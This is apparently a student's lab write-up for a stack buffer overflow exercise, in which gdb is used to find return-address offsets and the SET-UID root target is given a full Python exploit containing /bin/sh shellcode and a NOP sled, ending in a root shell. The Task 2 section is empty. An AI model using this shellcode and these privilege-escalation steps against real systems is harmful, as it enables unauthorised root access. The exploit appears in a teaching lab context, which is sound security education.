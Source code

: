 # Week 5

## Task 1

After compiling:
```bash
$ make
```

we executed the a32.out or a64.out:
```bash
$ ./a32.out
$ ./a64.out
```


and a new shell appears in the terminal.

![a32.out execution](../Week5/img/task_1_1.PNG)

![a64.out execution](../Week5/img/task_1_2.PNG)


## Task 2





## Task 3

In this task, we use this vulnerable SET-UID root program to gain access to the root shell. Since, we have disabled Address Space Layout Randomization, we know that our process will be stored  in  around the same memory always in  the  stack. So in order to find the address of the running program in the memory, we compile the program in debug mode. Debugging will help us run our desired program. 

So,  we  first  compile  the  program  in  the  debug  mode (-g  option),  with  the  StackGuard  counter-measure disabled and Stack executable and then run the program in debug mode using gdb:

![task_3_1](../Week5/img/task_3_1.png)

In gdb, we set a breakpoint on the bof function using b bof, and then start executing the program:

![task_3_2](../Week5/img/task_3_2.png)

The program stops inside the bof function due to the breakpoint created. The stack frame values for this function will be of our interest and will be used to construct the badfile contents. Here, we print out the ebp and buffer values, and also find the difference between the ebp and start of the buffer in order to find the return address value’s address. The following screenshot shows the steps:

![task_3_3](../Week5/img/task_3_3.png)

Here, we see that the frame pointer is `0xffffcf88` and hence the return address must be stored at `0xffffcf88 + 4`, and the first address we can jump to is `0xffffcf88 + 8`. Also, in order for the return address to point at our code, we need to know the location to store the return address in the input so  that it is stored in the return address  field  in  the  stack.  This  can  be found out by finding the difference between the return address and buffer start address, because our input is copied to the buffer from the start. We also know that return address will be 4 bytes above where the ebp points.

In the next step, we modify the exploit.py file to enter the new return address:

```python=
#!/usr/bin/python3
import sys
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))
##################################################################

# Put the shellcode somewhere in the payload
start = 200
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0xffffcf1c + start
offset = (0xffffcf88 - 0xffffcf1c) + 4

L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)


```

Next, we first make the python program executable and run the exploit.py file to generate the badfile. Then we run the vulnerable SET-UID program that uses this badfile as input and copies the contents of the file  in the stack, resulting in a buffer overflow. The `#` sign indicates that we have successfully obtained the root privilege by entering into the root shell. The effective user ID is seen to be that of the root (0):

![task_3_4](../Week5/img/task_3_4.png)

Hence, we have successfully performed the buffer overflow attack and gained root privileges.
